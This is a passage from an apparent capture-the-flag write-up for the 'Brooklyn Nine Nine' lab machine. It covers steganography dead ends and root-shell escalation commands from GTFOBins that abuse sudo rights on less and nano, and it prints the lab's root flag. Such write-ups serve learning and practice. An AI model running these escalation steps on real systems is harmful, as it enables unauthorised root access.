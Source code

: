 - GTFOBins gives us a way to spawn a root shell with the following sytnax:
```
sudo less /etc/profile
!/bin/sh
```

- Navigate to the `/root` directory and `cat root.txt`
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

## Rabbit Holes
### Searching for Steganography
- I navigated to the /brooklyn99.jpg directory seen in the page source code. I downloaded it since there was reference to steganography in the comments.
- I used Exiftool, CyberChef, and Binwalk to pull metadata from it, but to no avail. 

### Holt User
- After obtaining root permissions, you can switch to the Holt user. Using `sudo -l` will show the following:
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- I just checked this before grabbing the root flag just to see if Holt had root privileges, since he is the chief of police in the show.
- However, `/bin/nano` can also be given to GTFOBins to spawn a root shell using the following syntax:
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
